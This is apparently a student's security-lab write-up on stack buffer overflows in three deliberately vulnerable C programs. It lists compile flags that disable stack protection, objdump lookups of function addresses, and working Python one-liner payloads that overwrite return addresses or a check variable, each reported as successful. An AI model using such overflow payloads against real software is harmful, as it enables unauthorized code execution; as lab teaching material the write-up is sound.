








# Lab 1
Run vitual environment by docker file (using for attacking three files: bof1, bof2, bof3)
`docker run -it --privileged -v "C:/Users/ToanKhoa/Desktop/WorkSpace/IS (2024)/Security-labs:/home/seed/seclabs" img4lab`
## File bof1.c
- `gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2`
- Using the `-fno-stack-protector` option disables stack protection, making the program more vulnerable to buffer overflow attacks that would normally be caught by the stack protector mechanism.
- The `-mpreferred-stack-boundary=2` option sets the stack alignment to 4 bytes instead of the default 16 bytes. This modifies how memory is organized on the stack, potentially aiding in the creation of specific memory-based exploits.
**Getting secretFunc() address in terminal**
`objdump -d bof1.out|grep secretFunc`

- We get the address of secretFunc() is: 0804848b
**BOF1 Stack Frame**

->   Buffer overflow at the 205th byte.
**Run the program in terminal**
- Utilize the steps above to automatically input 204 bytes of the character 'a', followed by the address of the secretFunc function.
- The input format should be 204 bytes of 'a' followed by the memory address of secretFunc (\x8b\x84\x04\x08), continuing the overflow.
- `echo $(python -c "print('a'*204 + '\x8b\x84\x04\x08')") | ./bof1.out`
or `echo $(python -c "print('A' * 200 + 'BBBB' + '\x8b\x84\x04\x08')") | ./bof1.out`
**Result**

->Successful Attack
**Solution**
=> To prevent exploitation in this case, I will replace gets() with fgets() to ensure the correct limit of array a is respected.

## File Bof2.c 
**Summarizing**
- In this scenario, the buf[] array contains 40 elements, but the fgets() function reads up to 44 characters (fgets(buf, 45, stdin)), reserving the final element for the null terminator (\0).
- We rely on the last 4 elements to modify the check.
**BOF2 Stack Frame**

**Run the bof2.c file in terminal**
`gcc -g bof2.c -o bof2.out -fno-stack-protector -mpreferred-stack-boundary=2`
**Run the program in terminal**
`echo $(python -c "print('a'*40 + '\xef\xbe\xad\xde')") | ./bof2.out`
**Result:**

-> Attack successfully

### File bof3.c 
**Summarizing**
- In this situation, the buf[] array consists of 128 elements, but the fgets() function reads up to 133 characters.
  - This allows us to use 4 extra characters to overwrite the return address, redirecting execution to the shell function instead.
  
**BOF3 Stack Frame**

**Run the bof3.c file in terminal**
`gcc -g bof3.c -o bof3.out -fno-stack-protector -mpreferred-stack-boundary=2`
**Getting shell() address in terminal**
`objdump -d bof3.out|grep shell`

- Address of shell() is **0804845b**

**Run the program in terminal**
`echo $(python -c "print('a'*128 + '\x5b\x84\x04\x08')") | ./bof3.out` to buffer-overflow with address of shell
**Result**

- We attack successfully 